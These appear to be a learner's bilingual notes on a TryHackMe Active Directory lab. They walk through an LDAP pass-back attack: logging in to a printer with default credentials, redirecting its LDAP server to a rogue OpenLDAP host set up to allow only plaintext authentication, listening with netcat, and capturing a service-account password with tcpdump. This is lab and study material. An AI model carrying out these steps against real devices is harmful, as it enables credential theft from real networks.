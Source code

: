 	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	LDAP 綁定憑證
		--> 輕量級目錄存取協定 (LDAP) 身份驗證
		--> Gitlab | Jenkins | Custom-developed web applications | Printers |VPNs 
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> LDAP 回傳攻擊(LDAP Pass-back Attack)
			--> 針對網路裝置（例如印表機）的常見攻擊
			--> 預設憑證（網路印表機的 Web 介面）
				=> admin:admin
				=> admin:password
			--> http://printer.za.tryhackme.com/settings.aspx
				=> Server : 10.50.53.41
		--> LDAP的預設連接埠是389	
			--> nc -lvnp 389
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> 託管惡意 LDAP 伺服器
			--> error 
				--> W: GPG error: http://th.archive.ubuntu.com/ubuntu jammy InRelease: The following signatures couldn't be verified because the public key is not available: NO_PUBKEY 871920D1991BC93C
			--> solution :
				--> sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 871920D1991BC93C
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> OpenLDAP :
				=> sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
			--> 重新配置 LDAP 伺服器 : sudo dpkg-reconfigure -p low slapd
				=> DNS domain name : za.tryhackme.com
				=> Organization name: za.tryhackme.com
				=> Administrator password 
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> 降級支援的身份驗證機制
				--> nano olcSaslSecProps.ldif
					dn: cn=config
					replace: olcSaslSecProps
					olcSaslSecProps: noanonymous,minssf=0,passcred
					
					=> olcSaslSecProps：指定 SASL 安全性屬性
					=> noanonymous：停用支援匿名登入的機制
					=> minssf：指定可接受的最小安全強度，0表示無保護。
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> 使用 ldif 檔案來修補我們的 LDAP 伺服器 :
				--> sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
					SASL/EXTERNAL authentication started
					SASL username: gidNumber=0+uidNumber=0,cn=peercred,cn=external,cn=auth
					SASL SSF: 0
					modifying entry "cn=config"
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
			--> 驗證我們的惡意 LDAP 伺服器的設定是否已套用 :
				--> ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechan
					dn:
					supportedSASLMechanisms: LOGIN
					supportedSASLMechanisms: PLAIN
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
			--> 擷取 LDAP 憑證
				--> sudo tcpdump -SX -i breachad tcp port 389
					za.tryhackme.com\svc 
					LDAP..tryhackmeldappass1@
